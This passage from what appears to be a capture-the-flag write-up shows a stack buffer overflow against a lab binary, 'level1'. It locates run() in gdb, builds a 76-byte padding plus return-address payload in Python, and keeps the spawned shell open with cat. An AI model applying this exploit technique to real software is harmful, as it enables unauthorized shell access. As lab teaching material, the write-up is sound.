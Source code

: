 This confirms what we found manually.

---

### 4. Find the address of the `run()` function

```gdb
(gdb) info functions run
0x08048444  run
```

---

### 5. Final Payload Construction

We observed earlier that run() is located at 0x08048444, so this address is appended at the end of our payload.
At this point, we are ready to overwrite the return address and jump to `run()` at `0x08048444`.

#### Method 1: Using a file

We generate the payload using Python 2:

```bash
$ python -c 'print "A" * 76 + "\x44\x84\x04\x08"' > /tmp/payload
```

Then run the binary through GDB:

```gdb
$ gdb ./level1
(gdb) run < /tmp/payload
```

Expected output:

```bash
Good... Wait what?
Program received signal SIGSEGV, Segmentation fault.
0x00000000 in ?? ()
```

This indicates that the shell was launched but exited immediately due to lack of interactive input.  
This behavior is typical when the shell's stdin is closed immediately after being invoked

#### Keeping the shell open interactively

Outside of GDB, we can instead use:

```bash
$ cat /tmp/payload - | ./level1
```

Using `-` ensures that the standard input remains open after sending the payload, allowing the spawned shell to stay interactive.

---

## Conclusion
